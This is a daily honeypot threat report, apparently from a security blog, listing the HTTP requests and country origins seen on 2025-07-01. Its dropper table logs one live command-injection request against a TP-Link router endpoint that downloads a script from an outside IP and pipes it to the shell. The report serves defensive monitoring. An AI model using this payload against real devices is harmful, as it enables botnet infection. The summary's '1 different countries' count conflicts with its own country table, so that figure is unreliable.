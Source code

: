 ```yaml
---
title: "Report: 2025-07-01 "
date: 2025-07-01
desciption: "Report: 2025-07-01" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-01 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 1 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 17 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 865 requests were recorded during the day, originating from 1 different countries, with a peak of 272 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| US               | Germany            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                      |
|:--------------|:-----------------------------------------------------------------------------------------------------------------------------|
| 87.121.84.34  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://220.158.234.135/x/tplink+-O-|sh) HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                    |
|----:|----------------------:|:-----------------------------------------------------------|
|  18 |                     4 | GET /api/client_hello HTTP/1.1                             |
|  63 |                     2 | \x00\x0E8                                                  |
|  89 |                     1 | \x00\x0E8\x93&\x17\xEFT\x98yV\x00\x00\x00\x00\x00          |
| 115 |                     1 | GET /.env/.env-sample HTTP/1.1                             |
| 134 |                     1 | \x00\x0E8:<\xFE\xC6f\x91\x1F\xC7\x00\x00\x00\x00\x00       |
| 169 |                     1 | \x00\x0E\x08\x83\xAC3\x10\x96\xB01\xFA\x00\x00\x00\x00\x00 |
| 170 |                     1 | \x00\x0E8\x83\xAC3\x10\x96\xB01\xFA\x00\x00\x00\x00\x00    |
| 171 |                     1 | \x00\x0E\x08UG\x89\x00\xD96\xE2\xBD\x00\x00\x00\x00\x00    |
| 172 |                     1 | \x00\x0E8UG\x89\x00\xD96\xE2\xBD\x00\x00\x00\x00\x00       |
| 181 |                     1 | GET /Odin/http/call1751331212 HTTP/1.1                     |
| 216 |                     1 | \x00\x0E\x08                                               |
| 227 |                     1 | \x00\x0E8\x8Bq>X\x86Q\xA4\xED\x00\x00\x00\x00\x00          |
| 245 |                     1 | \x00\x0E\x08\xFC\x02t\x91\xA9\xD3HA\x00\x00\x00\x00\x00    |
| 246 |                     1 | \x00\x0E8\xFC\x02t\x91\xA9\xD3HA\x00\x00\x00\x00\x00       |
| 304 |                     1 | GET /odinhttpcall1751331212 HTTP/1.1                       |
| 305 |                     1 | GET /OdinHttpCall1751331212 HTTP/1.1                       |
| 314 |                     1 | GET /4803031659 HTTP/1.1                                   |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   272 | US                 |
|  1 |                   121 | GB                 |
|  2 |                    60 | NL                 |
|  3 |                    51 | DE                 |
|  4 |                    45 | BG                 |
|  5 |                    45 | RO                 |
|  6 |                    36 | FR                 |
|  7 |                    36 | JP                 |
|  8 |                    26 | PL                 |
|  9 |                    25 | CN                 |
| 10 |                    22 | CA                 |
| 11 |                    19 | SG                 |
| 12 |                    11 | HK                 |
| 13 |                    10 | BE                 |
| 14 |                     9 | CH                 |
| 15 |                     8 | ZA                 |
| 16 |                     6 | IN                 |
| 17 |                     6 | PT                 |
| 18 |                     5 | SC                 |
| 19 |                     5 | BR                 |
| 20 |                     4 | MN                 |
| 21 |                     4 | VN                 |
| 22 |                     4 | AO                 |
| 23 |                     4 | NG                 |
| 24 |                     3 | SE                 |
| 25 |                     3 | TW                 |
| 26 |                     3 | KZ                 |
| 27 |                     3 | EE                 |
| 28 |                     2 | ES                 |
| 29 |                     2 | UA                 |
| 30 |                     2 | KR                 |
| 31 |                     2 | ID                 |
| 32 |                     2 | TH                 |
| 33 |                     2 | IT                 |
| 34 |                     2 | TR                 |
| 35 |                     2 | IE                 |
| 36 |                     1 | BY                 |
| 37 |                     1 | LT                 |
| 38 |                     1 | IR                 |
